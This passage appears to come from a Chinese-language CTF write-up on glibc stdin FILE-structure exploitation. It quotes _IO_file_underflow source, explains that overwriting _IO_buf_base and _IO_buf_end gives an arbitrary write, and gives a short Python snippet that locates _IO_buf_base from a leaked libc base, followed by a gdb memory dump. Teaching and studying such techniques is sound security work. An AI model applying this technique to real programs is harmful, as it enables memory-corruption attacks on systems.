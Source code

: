 ```c
  /* This is very tricky. We have to adjust those 
     pointers before we call _IO_SYSREAD () since 
     we may longjump () out while waiting for 
     input. Those pointers may be screwed up. H.J. */  
  fp->_IO_read_base = fp->_IO_read_ptr = fp->_IO_buf_base;  
  fp->_IO_read_end = fp->_IO_buf_base;  //重新设置新的 _IO_buf_base
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_write_end  
    = fp->_IO_buf_base;  
  //--------------------------------------
  count = _IO_SYSREAD (fp, fp->_IO_buf_base,  //系统向_IO_buf_base指向的缓冲区写入读取的数据
          fp->_IO_buf_end - fp->_IO_buf_base);//写入长度:fp->_IO_buf_end - fp->_IO_buf_base
    
  if (count <= 0)  
    {  
      if (count == 0)  
    fp->_flags |= _IO_EOF_SEEN;  
      else  
    fp->_flags |= _IO_ERR_SEEN, count = 0;  
  }  
  fp->_IO_read_end += count; //使 _IO_read_end指针向后移动 
  if (count == 0)  
    {  
      /* If a stream is read to EOF, the calling application may switch active 
     handles.  As a result, our offset cache would no longer be valid, so 
     unset it.  */  
      fp->_offset = _IO_pos_BAD;  
      return EOF;  
    }  
  if (fp->_offset != _IO_pos_BAD)  
    _IO_pos_adjust (fp->_offset, count);  
  return *(unsigned char *) fp->_IO_read_ptr;  
}
```

#### 利用

IO_SYSREAD系统调用，向fp->_IO_buf_base处写入读取的数据，并且长度为 fp->_IO_buf_end - fp->_IO_buf_base

要是能够修改_IO_buf_base和_IO_buf_end 那么就可以实现任意位置和想要的长度

首先需要定位到_IO_2_1_stdin_结构体在内存中的位置，然后再定位到_IO_buf_base 的位置，_IO_buf_base位于结构体中的第8个，所以，它的_IO_buf_base_addr = _IO_buf_base + 0x8 * 7 (注意结构体对齐,int占用内存8字节,所以为 0x8 * 7 而不是 0x8 * 6 + 4)

```python
	#leaking_IO_buf_base
	_IO_2_1_stdin_ = libc_base + lib.sym['_IO_2_1_stdin_']
	_IO_buf_base = _IO_2_1_stdin_ + 0x8 * 7
	li('_IO_buf_base' + hex(_IO_buf_base))
```

来看看_IO_buf_base的值
```
0x7ffb6a2b08e0 <_IO_2_1_stdin_>:	0x00000000fbad208b	0x00007ffb6a2b0964
0x7ffb6a2b08f0 <_IO_2_1_stdin_+16>:	0x00007ffb6a2b0964	0x00007ffb6a2b0963
0x7ffb6a2b0900 <_IO_2_1_stdin_+32>:	0x00007ffb6a2b0963	0x00007ffb6a2b0963
0x7ffb6a2b0910 <_IO_2_1_stdin_+48>:	0x00007ffb6a2b0963	0x00007ffb6a2b0963 //IO_buf_base
0x7ffb6a2b0920 <_IO_2_1_stdin_+64>:	0x00007ffb6a2b0964	0x0000000000000000 //IO_buf_end
0x7ffb6a2b0930 <_IO_2_1_stdin_+80>:	0x0000000000000000	0x0000000000000000
0x7ffb6a2b0940 <_IO_2_1_stdin_+96>:	0x0000000000000000	0x0000000000000000
0x7ffb6a2b0950 <_IO_2_1_stdin_+112>:	0x0000000000000000	0xffffffffffffffff
0x7ffb6a2b0960 <_IO_2_1_stdin_+128>:	0x000000000a000000	0x00007ffb6a2b2790
0x7ffb6a2b0970 <_IO_2_1_stdin_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffb6a2b0980 <_IO_2_1_stdin_+160>:	0x00007ffb6a2b09c0	0x0000000000000000
0x7ffb6a2b0990 <_IO_2_1_stdin_+176>:	0x0000000000000000	0x0000000000000000
0x7ffb6a2b09a0 <_IO_2_1_stdin_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffb6a2b09b0 <_IO_2_1_stdin_+208>:	0x0000000000000000	0x00007ffb6a2af6e0
```